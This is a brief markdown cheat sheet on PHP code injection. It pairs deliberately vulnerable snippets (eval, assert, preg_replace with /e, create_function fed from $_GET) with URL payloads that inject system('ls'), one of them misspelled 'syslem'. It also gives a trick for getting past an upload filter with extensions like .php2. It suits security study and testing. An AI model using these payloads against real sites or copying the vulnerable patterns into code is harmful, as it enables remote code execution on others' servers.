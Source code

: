 ###### `#` needs to be encoded when attacks are used through urls

#### Beware of the following functions : 
##eval

```
<?php 
  $str="echo \"Hello ".$_GET['name']."!!!\";";
  eval($str);
?>
```

_[attack]_ = `URL?name=";syslem("ls");#`

##assert()  - identical to eval()
```
<?php
  assert(trim("'".$_GET['name']."'"));
  echo "Hello ".htmlentities($_GET['name']);
?> 
```
_[attack]_ = `URL?name='.system("ls");#`

##preg_replace (with /e modifier) => preg_replace('/.*/e',...) - /e does an eval() on the match
```
<?php
    echo preg_replace($_GET["pattern"], $_GET["new"], $_GET["base"]);
?>
```
_[attack]_ = `URL?pattern=/.*/e&new=system("ls")&base=something`

##create_function
```
<?php
   usort($users, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));
?>
```
_[attack]_ = `?order=id);}system('ls');#`

include[_once] / require[_once] 

WildCard :  A .php file can be uploaded bypassing preg_match('/\.php$/',$file) by name the file as .php2 or 	            .php.blah so that apche doesn't know to handle the extension move to next one and run the php code 
